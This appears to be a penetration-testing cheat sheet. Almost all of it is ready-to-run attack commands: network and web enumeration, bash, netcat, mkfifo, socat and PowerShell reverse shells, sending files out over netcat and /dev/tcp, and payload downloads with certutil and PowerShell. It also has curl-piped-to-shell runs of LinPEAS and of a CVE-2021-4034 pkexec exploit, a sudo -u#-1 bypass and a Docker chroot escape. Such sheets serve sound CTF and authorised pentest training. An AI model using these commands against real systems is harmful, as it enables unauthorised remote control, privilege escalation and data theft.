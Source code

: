 # CHEATSHEET  
  
 
## NETWORK ENUMERATION
  
 ### HOST DISCOVERY
```bash
arp-scan -I <INTERFACE> --localnet --ignoredups
```
  
 ### TCP OPEN PORTS
```bash
nmap -p- --open -sS -n -v -Pn --min-rate 5000 -oG allPorts <TARGET> 
```
  
 ### INFO & VERSION
```bash
nmap -p<PORTS> -sCV -oN portScan <TARGET>
```
  
 ### HTTP ENUMERATION
 Enumerate common directories and files with nmap
```bash
nmap -p<PORTS> --script http-enum -oN webScan <TARGET>
```

 Gobuster
```bash
# Directories
gobuster dir -u <URL> -w <WORDLIST>

# Files by extension
gobuster dir -u <URL> -w <WORDLIST> -x http,php,txt

# Subdomains
gobuster vhost -u <URL> -w <WORDLIST>

# Useful parameters
--threads, -t
--exclude-length
--status-codes, -s
--status-codes-blacklist, -b
--no-tls-validation, -k
--timeout
```
  
  
  
## REVERSE SHELLS
  
 ### BASH
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```
  
 ### NETCAT
```bash
nc -e /bin/bash <IP> <PORT>
```
  
 ### MKFIFO
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```
  
 ### SOCAT
```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```
  
 ### POWERSHELL
```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
  
 ### INTERACTIVE TTY
```bash
script /dev/null -c bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
# Check size in another window: stty size
stty rows <ROWS> columns <COLUMNS>
```
  
  
  
## SHARE AND DOWNLOAD
  
 ### HTTP SERVER
```bash
# Python3
python3 -m http.server <PORT>

# Python2
python -m SimpleHTTPServer <PORT>

# PHP
php -S 0.0.0.0:<PORT>
```
  
 ### SMB 
```bash
smbserver.py <NAME> $(pwd) -smb2support
```
  
 ### FILE TRANSFER ( NETCAT - BASH ) 
```bash
# Listen
nc -nlvp <PORT> > <FILE>

# Send
cat <FILE> | nc <IP> <PORT>  # Netcat
cat <FILE> > /dev/tcp/<IP>/<PORT>  # Bash
```
  
 ### DOWNLOAD 
 #### Powershell
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <PATH>
```

####Cmd
```shell
certutil -urlcache -split -f <URL> <PATH>
```

#### Bash
```bash
wget "http://<IP>/"
```
  
  
  
## SYSTEM ENUMERATION
  
 ### Enviroment Variables
```bash
# User enviroment variables
env || set

# Common project enviroment file
find / -name ".env" 2>/dev/null
```
  
 ### Find SUID on GUID files
```bash
# SUID
find / -perm -4000 2>/dev/null

# GUID
find / -perm -2000 2>/dev/null
```
  
 ### Check capabilities
```bash
getcap -r / 2>/dev/null
```
  
 ### Open local ports
```bash
ss -nltp
```
  
 ### Cron Jobs
```bash
# Cron files
find /etc -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```
  
 ### Monitoring processes
```bash
old_ps=$(ps -eo user,command); while true; do; new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" |grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```
  
 ### Scripts with write permissions
```bash
find / -user <USER> -perm -o+w \( -name \"*.sh\" -O -name \"*.py\" -O -name \"*.pl\" -O -name \"*.rb\" -O -name \"*.go\" -O -name \"*.lua\" \) 2>/dev/null
```
  
 ### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
  
  
  
## PRIVILEGE ESCALATION
  
 ### Sudo
```bash
# List user privileges
sudo -l

# Check sudo version
sudo -V | grep "Sudo ver"

# Sudo < v1.28
sudo -u#-1 /bin/bash
```
  
 ### Polkit - (CVE-2021-4034)
```bash
# Check pkexec permissions
ls -l $(which pkexec)

# If pkexec has SUID
curl -L https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | python3
```
  
 ### Docker
```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```


